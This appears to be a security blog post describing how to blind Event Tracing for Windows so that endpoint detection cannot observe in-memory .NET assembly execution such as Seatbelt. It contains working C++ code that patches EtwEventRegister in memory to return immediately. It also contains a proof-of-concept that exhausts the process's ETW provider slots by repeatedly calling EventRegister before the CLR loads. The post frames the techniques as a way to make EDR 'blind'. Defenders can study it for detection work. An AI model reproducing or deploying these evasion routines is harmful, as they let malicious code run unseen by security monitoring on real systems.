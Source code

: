 ```yaml
---
title: A Novel Method for Bypassing ETW
---
```


I wanted to bypass Event Tracing for Windows (ETW) without any memory patching or hardware breakpoints.  The purpose of breaking ETW is almost always to prevent EDR from gaining telemetry on the execution of C# assemblies. An example of some of the telemetry is shown below with the execution of Seatbelt in-memory inside the NanoBeacon process:

![ProcessHacker shows loaded .Net assemblies](/assets/img/2023-03-15/bad.png)

The current public methods of breaking ETW all patch functions in memory. They do something like this:
```c++
BOOL patchETW(BOOL revertETW) {
#ifdef _M_AMD64
    const SIZE_T patchSize = 1;
    unsigned char etwPatch[] = { 0xc3 }; // ret
    unsigned char etwrevert[] = { 0x40 };
#elif defined(_M_IX86)
    const SIZE_T patchSize = 3;
    unsigned char etwPatch[] = { 0xc2, 0x14, 0x00 };
    unsigned char etwrevert[] = { 0x8b, 0xff, 0x55 };
#endif

    //Get pointer to EtwEventWrite 
    void* pAddress = (PVOID)GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventRegister");
    PVOID lpBaseAddress = pAddress;
    ULONG OldProtection, NewProtection;
    ULONG uSize = patchSize;
    //Change memory protection via NTProtectVirtualMemory
    NTSTATUS status = NtProtectVirtualMemory(NtCurrentProcess(), lpBaseAddress, &uSize, PAGE_READWRITE, &OldProtection);
    //Patch EtwEventRegister via NTWriteVirtualMemory
    status = NtWriteVirtualMemory(NtCurrentProcess(), pAddress, (PVOID)(revertETW ? etwrevert : etwPatch), patchSize, NULL);
    //Revert back memory protection via NTProtectVirtualMemory
    status = NtProtectVirtualMemory(NtCurrentProcess(), lpBaseAddress, &uSize, OldProtection, &NewProtection);
    return 1;
}
```

These could be detected by EDR that have the `NtProtectVirtualMemory` and `NtWriteVirtualMemory` functions hooked. 

There are approaches that take advantage of hardware breakpoints to redirect execution flow without any memory patching. However this method have many downsides like the risk of the hardware breakpoint being detected, and the implementation being very difficult. There are also as far as I know no public tools that demo this for bypassing ETW and that’s because, the .Net Common Language Runtime (CLR) when loaded, starts it own threads, which you’d need to somehow hijack to setup the hardware breakpoint, which then _often_ leads to  patching memory, so it’s just the above method with extra steps.

There is a solution, that’s easy to implement and very effective at the time of writing. The [EventRegister](https://learn.microsoft.com/en-us/windows/win32/api/evntprov/nf-evntprov-eventregister) function:
> Registers an ETW event provider, creating a handle that can be used to write ETW events.

This is the function used by software to create an ETW provider which can then be used to send ETW events. The CLR (which is clr.dll at its core) calls the `EventRegister()` when being loaded to be able to provide the telemetry to EDRs or consumers like ProcessHacker.

An important note on `EventRegister` is that programs should ignore the return value, and just continue working: 
> Most production code should continue to run even if an ETW provider failed to register, so release builds should usually ignore the error code returned by `EventRegister`.

So, my question is, how many ETW event providers can the system/process have? Well, it turns out that a process can have at most [2048](https://www.geoffchappell.com/studies/windows/win32/ntdll/api/etw/evntsup/reghandle.htm). So, if a malicious program calls `EventRegister` 2048 times, or better yet, until an error occures, before loading the CLR, there cannot be any further event providers in the process.

My proof-of-concept code is below which demonstrates spamming the `EventRegister` function to fill the kernel mode red-black tree thus preventing further ETW providers for registering.
```c++
void breakETW_Forever() {
    DWORD status = ERROR_SUCCESS;
    REGHANDLE RegistrationHandle = NULL;
    const GUID ProviderGuid = { 0x230d3ce1, 0xbccc, 0x124e, {0x93, 0x1b, 0xd9, 0xcc, 0x2e, 0xee, 0x27, 0xe4} }; //.NET Common Language Runtime
    int count = 0;
    while (status = EventRegister(&ProviderGuid, NULL, NULL, &RegistrationHandle) == ERROR_SUCCESS) {
        count++;
    }
    //printf("%d\n", count);
}
```

And this is how ProcessHacker .Net assemblies tab looks running Seatbelt in-memory after executing the PoC:
![ProcessHacker shows nothing](/assets/img/2023-03-15/good.png)

There is no ETW telemetry so anyone consuming ETW events (_cough_ EDR _cough_) would be blind to the execution. 
